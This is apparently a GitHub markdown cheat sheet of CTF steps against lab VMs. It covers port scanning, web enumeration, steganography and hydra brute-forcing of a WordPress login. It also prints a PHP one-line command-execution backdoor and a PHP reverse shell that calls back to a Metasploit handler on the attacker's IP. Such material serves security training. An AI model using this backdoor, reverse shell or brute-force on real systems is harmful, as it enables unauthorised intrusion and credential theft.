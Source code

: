 # CTF  -- [CTF AWESOME](https://github.com/apsdehal/awesome-ctf)
Steps to follow when participating to CTF

## See all opened ports, [here](https://hackertarget.com/nmap-cheatsheet-a-quick-reference-guide/)

```bash
# All ports
nmap -p- 192.168.1.1
# This may detect more things, takes longer: Detects if ftp is vulnerable
nmap -A 192.168.1.1

nmap -sV -A 192.168.1.1
 
```

### Connect to a specific port
```bash
nc -n 192.168.0.157 13337

```

## More info about the website:
```bash
whatweb http://192.168.0.157:80

Output:
http://192.168.0.157:80 [200 OK] Apache[2.4.27], Country[RESERVED][ZZ], HTML5, HTTPServer[Fedora Linux][Apache/2.4.27 (Fedora)], IP[192.168.0.157], Title[Morty's Website]

```

## Dirbuster

```bash
dirbuster

wordlist: /usr/share/dirbuster/wordlists
```

### Scan website with nikto

```bash
nikto -h host [-port p]
```

### Scan wordpress site:

```bash
wpscan --url host --enumerate vp

# --enumerate vp: vulnerable plugins
```


## Files in images [here](http://ctfs.github.io/resources/topics/steganography/file-in-image/README.html):

```bash
The terminating byte for a JPEG is FF D9 in hex

PK are the initials of Phil Katz, the inventor of the zip file
```

### Image on image [here](https://github.com/zardus/ctf-tools/blob/master/stegsolve/install)

```bash
#!/bin/bash -ex

wget http://www.caesum.com/handbook/Stegsolve.jar -O stegsolve.jar
chmod +x stegsolve.jar
mkdir bin
mv stegsolve.jar bin/
```

### Find strings in image:
```bash
strings image.jpg
```

## Brute force passwords with HYDRA or wpscan

```bash
hydra -l elliot -P ~/fsocity.dic 10.0.2.4 http-post-form “/wp-login.php:log=elliot&pwd=^PASS^:ERROR”

Where:
    -l specifies the username
    -P specifies the dictionary file
    http-post-form is the authentication method being used

and,

“/wp-login.php:log=elliot&pwd=^PASS^:ERROR”

roughly parses to,

    /wp-login.php the login page to attack
    log=elliot is the username on the form
    pwd=^PASS^ substitutes the passwords from the dictionary file
    ERROR tells it what to look for if it fails
```

### WPscan
```bash
wpscan -u 10.0.2.4 --wordlist ~/fsocity.dic --username elliot
```


## Root escalation
```bash
sudo -

sudo -i
```

## PHP

#### Shell one-line

https://gist.github.com/sente/4dbb2b7bdda2647ba80b

```php
<!-- Simple PHP Backdoor By DK (One-Liner Version) -->
<!-- Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd -->
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

### Using reverse shell with metasploit

Kali has some reverse shells for php: `/usr/share/webshells/php`, ex: `php-reverse-shell.php`

Change in that script the following lines:

```php
$ip = '192.168.1.159';  // CHANGE THIS your IP, not VM ip
$port = 55555;       // CHANGE THIS your PORT(where the metasploit will listen)
```

Upload file to VM.

Open metasploit:

```bash
msfconsole

msf > use multi/handler
msf exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
# Output: payload => linux/x86/shell/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.1.159
# Output: LHOST => 192.168.1.159
msf exploit(multi/handler) > set LPORT 55555
# Output: LPORT => 55555
msf exploit(multi/handler) > exploit
```

Open the page containing the shell and start writing in the msfconsole linux commands: `whoami`.


## WalkThroughs

 - [MrRobot](https://securitybytes.io/vulnhub-com-mr-robot-1-ctf-walkthrough-7d4800fc605a)
 - [Seatle Ctf](https://medium.com/@DRX_Sicher/seattle-ctf-walkthrough-a2fb2bf9367c)
 - [Rickdiculouslyeasy](https://portunreachable.com/ctf-walkthrough-vulnhub-rickdiculouslyeasy-26da0981413a)
